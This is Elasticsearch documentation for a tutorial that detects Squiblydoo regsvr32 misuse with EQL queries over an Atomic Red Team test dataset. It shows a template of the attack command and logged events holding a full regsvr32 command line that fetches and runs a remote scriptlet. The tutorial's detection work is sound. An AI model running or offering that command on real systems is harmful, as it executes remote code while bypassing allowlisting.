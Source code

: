[role="xpack"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

This example tutorial shows how you can use EQL to detect security threats and
other suspicious behavior. In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1218/010/[regsvr32 misuse] in Windows event
logs.

`regsvr32.exe` is a built-in command-line utility used to register `.dll`
libraries in Windows. As a native tool, `regsvr32.exe` has a trusted status,
letting it bypass most allowlist software and script blockers.
Attackers with access to a user's command line can use `regsvr32.exe` to run
malicious scripts via `.dll` libraries, even on machines that otherwise
disallow such scripts.

One common variant of regsvr32 misuse is a
https://attack.mitre.org/techniques/T1218/010/[Squiblydoo attack]. In a
Squiblydoo attack, a `regsvr32.exe` command uses the `scrobj.dll` library to
register and run a remote script. These commands often look like this:

[source,sh]
----
"regsvr32.exe  /s /u /i:<script-url> scrobj.dll"
----

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team] that includes
events imitating a Squiblydoo attack. The data has been mapped to
{ecs-ref}[Elastic Common Schema (ECS)] fields.

To get started:

. Create an <<index-templates,index template>> with
<<create-index-template,data stream enabled>>:
+
////
[source,console]
----
DELETE /_data_stream/*
DELETE /_index_template/*
----
// TEARDOWN
////
+
[source,console]
----
PUT /_index_template/my-data-stream-template
{
  "index_patterns": [ "my-data-stream*" ],
  "data_stream": { },
  "priority": 500
}
----

. Download https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/yamlRestTest/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`].

. Use the <<docs-bulk,bulk API>> to index the data to a matching stream:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/my-data-stream/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the data was indexed:
+
[source,console]
----
GET /_cat/indices/my-data-stream?v=true&h=health,status,index,docs.count
----
// TEST[setup:atomic_red_regsvr32]
+
The response should show a `docs.count` of `150`.
+
[source,txt]
----
health status index                                 docs.count
yellow open   .ds-my-data-stream-2099.12.07-000001         150
----
// TESTRESPONSE[s/.ds-my-data-stream-2099.12.07-000001/.+/ non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of regsvr32 events

First, get a count of events associated with a `regsvr32.exe` process:

[source,console]
----
GET /my-data-stream/_eql/search?filter_path=-hits.events    <1>
{
  "query": """
    any where process.name == "regsvr32.exe"                <2>
  """,
  "size": 200                                               <3>
}
----
// TEST[setup:atomic_red_regsvr32]

<1> `?filter_path=-hits.events` excludes the `hits.events` property from the
response. This search is only intended to get an event count, not a list of
matching events.
<2> Matches any event with a `process.name` of `regsvr32.exe`.
<3> Returns up to 200 hits for matching events.

The response returns 143 related events.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

`regsvr32.exe` processes were associated with 143 events. But how was
`regsvr32.exe` first called? And who called it? `regsvr32.exe` is a command-line
utility. Narrow your results to processes where the command line was used:

[source,console]
----
GET /my-data-stream/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line.keyword != null
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches one event with an `event.type` of `creation`, indicating the
start of a `regsvr32.exe` process. Based on the event's `process.command_line`
value, `regsvr32.exe` used `scrobj.dll` to register a script, `RegSvr32.sct`.
This fits the behavior of a Squiblydoo attack.

[source,console-result]
----
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": ".ds-my-data-stream-2099.12.07-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/  \.\.\.\n/"is_partial": false, "is_running": false, "took": $body.took, "timed_out": false,/]
// TESTRESPONSE[s/"_index": ".ds-my-data-stream-2099.12.07-000001"/"_index": $body.hits.events.0._index/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

Check if `regsvr32.exe` later loads the `scrobj.dll` library:

[source,console]
----
GET /my-data-stream/_eql/search
{
  "query": """
    library where process.name == "regsvr32.exe" and dll.name == "scrobj.dll"
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches an event, confirming `scrobj.dll` was loaded.

[source,console-result]
----
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": ".ds-my-data-stream-2099.12.07-000001",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "@timestamp": 131883573237450016,
          "dll": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "event": {
            "category": "library"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/  \.\.\.\n/"is_partial": false, "is_running": false, "took": $body.took, "timed_out": false,/]
// TESTRESPONSE[s/"_index": ".ds-my-data-stream-2099.12.07-000001"/"_index": $body.hits.events.0._index/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-success]]
=== Determine the likelihood of success

In many cases, attackers use malicious scripts to connect to remote servers or
download other files. Use an <<eql-sequences,EQL sequence query>> to check
for the following series of events:

. A `regsvr32.exe` process
. A load of the `scrobj.dll` library by the same process
. Any network event by the same process

Based on the command line value seen in the previous response, you can expect to
find a match. However, this query isn't designed for that specific command.
Instead, it looks for a pattern of suspicious behavior that's generic enough to
detect similar threats.

[source,console]
----
GET /my-data-stream/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe"]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573237450016,
              "dll": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "event": {
                "category": "library"
              }
            }
          },
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573238680000,
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              },
              "network": {
                "protocol": "tcp",
                "direction": "outbound"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/  \.\.\.\n/"is_partial": false, "is_running": false, "took": $body.took, "timed_out": false,/]
// TESTRESPONSE[s/"_index": ".ds-my-data-stream-2099.12.07-000001"/"_index": $body.hits.sequences.0.events.0._index/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
